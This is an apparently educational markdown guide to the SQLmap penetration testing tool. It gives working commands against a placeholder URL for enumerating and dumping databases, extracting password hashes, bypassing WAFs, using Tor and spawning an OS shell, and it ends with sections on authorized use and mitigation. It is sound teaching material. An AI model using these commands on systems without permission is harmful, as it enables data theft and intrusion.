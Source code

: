 <br>

# SQLmap
SQLmap is **an open-source penetration testing tool designed to automate the detection and exploitation of SQL injection vulnerabilities in web applications**. It is a powerful tool for both attackers and security professionals, capable of identifying vulnerabilities, retrieving data, and even executing commands on compromised databases.

## 1. Features of SQLmap
1. **Automated** SQL Injection Detection
  - Identifies SQL injection vulnerabilities by testing various payloads on web application parameters.
2. **Database** Fingerprinting
  - Identifies the type, version, and features of the database management system (DBMS).
3. **Data Extraction**
  - Retrieves database schema, table contents, and credentials.
4. **Privilege Escalation**
  - Explores database user privileges and escalates access if possible.
5. **Operating System Interaction**
  - Executes OS-level commands when databases support extended functionality.
6. Support for **Multiple Injection Types**
  - Blind SQLi
  - Boolean-based SQLi
  - Time-based SQLi
  - Union-based SQLi
  - Error-based SQLi
  - Stacked queries and out-of-band (OOB) injections.
7. Database Support
  - Works with popular DBMSs, including:
    - MySQL
    - PostgreSQL
    - Oracle
    - Microsoft SQL Server
    - SQLite
    - MariaDB
8. **Tor and Proxy Support**
  - Routes traffic through Tor or proxies for anonymity.  
<br>

## 2. How SQLmap Works
SQLmap works by sending crafted SQL payloads to the target application and analyzing the responses to identify vulnerabilities and extract data.

### Typical Workflow
1. **Identify the target URL or form**.
2. **Configure** SQLmap with the target.
3. SQLmap **sends various payloads** to test for vulnerabilities.
4. Upon finding a vulnerability, SQLmap **exploits it to extract data or perform additional actions**.  
<br>

## 3. Common SQLmap Commands

### a. Basic Usage  

```
sqlmap -u "http://example.com/page?id=1"
```

- Tests the id parameter in the URL for SQL injection.

### b. Enumerate Databases  

```
sqlmap -u "http://example.com/page?id=1" --dbs
```

- Lists all databases on the target.

### c. Enumerate Tables  

```
sqlmap -u "http://example.com/page?id=1" -D database_name --tables
```

- Lists all tables in the specified database.

### d. Dump Table Data  

```
sqlmap -u "http://example.com/page?id=1" -D database_name -T table_name --dump
```

- Extracts all data from the specified table.

### e. Identify Database User  

```
sqlmap -u "http://example.com/page?id=1" --current-user
```

- Retrieves the current database user.

### f. Test All Parameters  

```
sqlmap -u "http://example.com/page?id=1" --forms
```

- Scans all parameters in forms on the page.

### g. Bypass WAFs  

```
sqlmap -u "http://example.com/page?id=1" --tamper=charencode
```

- Uses tamper scripts to bypass Web Application Firewalls (WAFs).

### h. Use Tor for Anonymity  

```
sqlmap -u "http://example.com/page?id=1" --tor
```

- Routes traffic through the Tor network.  
<br>

## 4. Example Scenarios

### a. Dumping Database Credentials  

```
sqlmap -u "http://example.com/page?id=1" --passwords
```

- Extracts hashed passwords stored in the database.

### b. Discovering Privilege Levels  

```
sqlmap -u "http://example.com/page?id=1" --privileges
```

- Identifies privileges of the current database user.

### c. Running OS Commands  

```
sqlmap -u "http://example.com/page?id=1" --os-shell
```

- Spawns a shell to execute operating system commands (if supported).  
<br>

## 5. Risks and Responsible Use

### SQLmap is a penetration testing tool and should be used responsibly
1. Only Test Systems **You Own or Have Permission** To Test
  - Unauthorized use can lead to legal consequences.
2. **Do Not Use on Production** Systems Without Approval
  - SQLmap can send high volumes of requests, potentially causing performance degradation.  
<br>

## 6. Mitigation Against SQLmap Attacks
1. **Input Validation and Sanitization**
  - Validate and sanitize all user inputs to prevent SQL injection.
2. **Parameterized Queries**
  - Use prepared statements or stored procedures instead of dynamic SQL.
3. **Web Application Firewalls (WAFs)**
  - Block common SQL injection payloads and tamper scripts.
4. **Least Privilege Principle**
  - Restrict database user permissions to the minimum required.
5. **Regular Security Audits**
  - Use tools like SQLmap in authorized tests to identify and patch vulnerabilities.  
<br>

## 7. Summary

| Feature | Details |
| ------- | ------- |
| Purpose | Automate detection and exploitation of SQL injection vulnerabilities. |
| Key Features | Data extraction, privilege escalation, OS interaction, bypass WAFs. |
| Common Commands | --dbs (list databases), --tables (list tables), --dump (extract data). |
| Supported DBMS | MySQL, PostgreSQL, SQLite, MSSQL, Oracle, MariaDB. |
| Mitigation | Input validation, parameterized queries, WAFs, least privilege principle. |

**SQLmap is an essential tool for penetration testers, offering powerful features for detecting and exploiting SQL injection vulnerabilities**. While it streamlines vulnerability testing, its **use must be ethical and authorized** to avoid legal and operational risks. Organizations can defend against SQLmap and similar tools by adopting robust security measures like **input validation**, **prepared statements**, and **regular testing**.  
<br>